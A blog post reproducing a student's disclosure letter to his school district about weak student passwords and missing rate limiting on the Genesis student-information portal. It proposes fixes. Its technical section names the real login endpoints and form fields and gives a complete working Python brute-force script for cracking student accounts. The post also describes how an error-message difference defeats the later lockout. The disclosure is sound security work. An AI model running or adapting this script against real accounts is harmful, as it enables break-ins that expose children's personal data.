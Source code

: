 @Title = School Password Concern
@Author = Connor Slade
@Date = 02-11-22
@Description = How I hacked my school (that caught your attention huh)
@Tags = School, Passwords, Hacking, Genesis
@Path = other/school-password-concern
@Assets = .

---

# 🏫 School Password Concern

<div ad note>
Note

A document I made a while ago (Apr 2021) and sent to my school district addressing the poor student account security.

About 18 days later the school IT person responded saying they have a mechanism in place to limit the number of password retries to 8.
I looked into how they implemented this and found that when an account is tried more than 8 it disables the account...
At first I thought they just shifted the problem because now you could lock people out of their accounts by spamming login attempts.
But I soon realized that it didn't even fix the original problem!

When your login failed it would show an error message. If it was because of an incorrect password this message would _always_ be `"Username or password is incorrect."`.
But if you had a correct passwords but the account was under the 'ratelimit' it would say `"Account is Inactive."`. So you could still tell if the password was correct.

A few months later I rewrote the system in Rust making it like thousands of times faster, often cracking a password in under 30 seconds.

And nothing much has happened since. I hope they fix this because I cant have been the only one to see a problem here.

</div>

<div ad info>
Info

Source Code can be found [here](https://github.com/Basicprogrammer10/SchoolPasswordCrack).

</div>

## 🧠 Intro

I am writing to express a concern I have with district password security for the students, as well as to offer some possible solutions to fix this problem.

The [Genesis](https://www.genesisedu.com/) login system has a vulnerability that allows many possible passwords to be tried very quickly.
This could allow someone to fairly easily guess passwords and gain access to student accounts in a matter of minutes. With access to a student's password, a large amount of personal information is at risk.

## ❓ Why this is a problem

How is this bad? Well with these passwords being used for both Genesis accounts and student Google accounts lots of student's personal information is accessible.
This includes the following (in no particular order)

- Full Name
- Birth Date
- Age
- State ID
- School name
- Grade
- Attendance
- Grades
- Classes
- Teacher names
- Report Cards
- Forms
- Calendar Events
- Class Zoom Links
- Class Times
- Student Assignments
- Student Files
- Student Emails (of all students)
- YouTube Watch & Search history
- Google Search History
- Google Keep stuff
- Chrome Bookmarks
- Chrome Saved Passwords
- Chrome autofill form data
- Chrome currently open tabs
- Chrome History
- Google Photos
- Google Tasks
- Any Phones / Mobile devices signed in with school Google
- Device Details of devices signed in to school Google account
- And more

And this is just the information I found with just a few minutes of searching through my account.
I hope after reading that you are very concerned about the amount of personal information that is basically public (to anyone who cares enough to put a small amount of effort and time into it).
Now not only does anybody who cracks someone else's passwords have access to read the information contained in the categories mentioned above, but they can also edit/modify/send information/emails as someone else.

## ✨ Fixes

Now that this problem is known, it wouldn't be very helpful if I didn't suggest some fixes!
So here are two simple options to think about.

### 📀 Option 1

One fix for this problem is to use more secure passwords for accounts.
Currently, a large amount (not all) of student passwords appear to be formatted like this ⇒ `30####` where the `#`s are any number.
This means that for many student passwords only four digits need to be cracked.
This is bad because it lowers the time to crack passwords.
I have been able to crack my own password with some relatively simple [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) in only a few minutes.
This means all student passwords could be cracked in a few weeks or less for over 7000 accounts.

I think that at a certain grade (I would say 6th grade) students could learn how to then make their own secure passwords.
Secure passwords have 10 characters made up of letters, numbers, and special characters.
These passwords should not be able to be seen by teachers or other staff but could be reset if needed.
This would be good in terms of security, but it will also teach students the important skill of making secure passwords.

### 💿 Option 2

Another way to fix this problem is by making some modifications to the Genesis login system.
This is something that would require working with the Genesis 'team' to fix but would be _ok_ if option 1 is not viable.

Currently, Genesis has no rate limit or CAPTCHA. This means that many automated password attempts can be made within very quick succession.
For example, the program mentioned above was able to make over 30 requests per second.
This allows simple brute force attacks (such as this one) to work.
Nowadays fixing this is extremely easy with the use of external services like reCAPTCHA.

### 🌠 Fixes Conclusion

There are of course more options than these two, but I think this is a good start and will hopefully get the district to think more about the security aspect of the services used.
Apart, these solutions are ok but if both are used together the school and its students will be made more secure than ever.

## 🛑 Conclusion

Personal information has become an incredibly valuable asset for advertisers, hackers, etc. it is now more important than ever to properly secure it.
At the moment I believe the district is **not** doing enough to secure this information, which places large amounts of personal protected student data at risk.
I believe that it is the district's responsibility to securely manage student's data on required sites and services (like Google Classroom and Genesis).

By reading this our district is one step closer to better security!
As I hope you can see from reading this, I really care about security and want to improve the school's technology for not only myself but all other students.
I will also be happy to discuss my thoughts and findings in more detail if It would be helpful.

Sincerely, Connor

## 📅 Technical Details (If you are interested)

Here I will be going over some specific technical details of this vulnerability. View the advanced version's [code](https://github.com/Basicprogrammer10/SchoolPasswordCrack/blob/master/src/SchoolPasswordCrack.py) and see it in action [here](https://asciinema.org/a/408164).
This vulnerability can be exploited manually if you have a lot of time but can be sped up immensely with a bit of code.

At its most basic my script just sends a GET request to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/view` to get the `JSESSIONID` cookie assigned by the server.
Then it sends POST requests to `https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check` with the form data `{"j_password": <PASSWORD>, "j_username": <EMAIL>}` where `<PASSWORD>` is the password to try (ex: 307652 or 300936) and `<EMAIL>` is the email of the account to crack.
I found these details by looking at the site's network traffic when logging into my account.

Below you can see a basic python script that will (slowly) crack a password for the supplied email account.
Code comments are included to help show what each line does.

```python
import requests  # Import needed module

url      = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/j_security_check'  # Define api uri
checkUrl = 'https://parents.genesisedu.com/SCHOOL_PAGE/sis/view?gohome=true'  # Define defult url

# Put student Email here (ex: example@domain.com)
email = ''

assert email != '' # Dont run if email is empty
print(f'[*] Starting Crack for {email}')  # Print email to crack

for i in range(9999):  # Loop through possible passwords
    toTry = f'30{str(i).zfill(4)}'  # Create password to try (ex: 300736)
    print(f'[*] Trying [{toTry}]')  # print what password is being tried

    # Create new session to hold cookies
    ses = requests.Session()

    # Let server Create cookies needed to proform exploit (JSESSIONID)
    ses.get(checkUrl)

    # Get Data to send
    dataToSend = {"j_password": toTry, "j_username": email}

    # Try Password
    data = ses.post(url, data=dataToSend)

    # Check if is correct password
    if not "Account is inactive" in data.text and not "workStudentId" in data.text:
        continue
    print(f'\n[*] Complete: {toTry}')  # if passwords is correct print it
    break  # Exit the loop when the password has been found
```

Watch this script run [here](https://asciinema.org/a/408162). Now this works but is still very slow, however, it does a good job showing what is going on without optimizations.
To speed this up multi-threading can be used to attempt more passwords in the same amount of time.
